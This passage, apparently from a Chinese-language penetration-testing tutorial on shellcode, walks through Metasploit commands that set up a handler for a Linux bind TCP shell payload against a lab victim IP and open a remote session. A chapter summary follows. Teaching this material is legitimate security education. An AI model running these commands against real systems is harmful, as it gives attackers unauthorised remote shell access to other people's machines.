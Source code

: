 它正在等待连接。现在，让我们在攻击者机器上使用 Metasploit Framework 和`msfconsole`命令设置我们的监听器，然后选择处理程序：

```
use exploit/multi/handler
```

然后，我们使用这个命令选择我们的有效载荷：

```
set PAYLOAD linux/x64/shell/bind_tcp
```

现在，我们指定受害者机器的 IP：

```
set RHOST 192.168.238.128
```

然后，我们指定端口- Metasploit 的默认端口是`4444`：

```
set LPORT 4444
```

现在，我们运行我们的处理程序：

```
exploit
```

上述命令的输出如下截图所示：

![](img/00228.jpeg)

它说会话在`session 1`上是活动的。让我们使用`session 1`激活这个会话：

![](img/00229.jpeg)

成功了！

# 总结

在本章中，我们学习了如何创建简单的 shellcode 以及如何去除不良字符。我们继续使用`execve`执行系统命令。然后，我们构建了高级的 shellcode，比如绑定 TCP shell 和反向 TCP shell。最后，我们看到了如何使用 Metasploit Framework 在一行中构建 shellcode 以及如何使用 Metasploit 设置监听器。

我们现在确切地知道如何构建有效载荷，所以我们将看看如何使用它们。在下一章中，我们将讨论缓冲区溢出攻击。
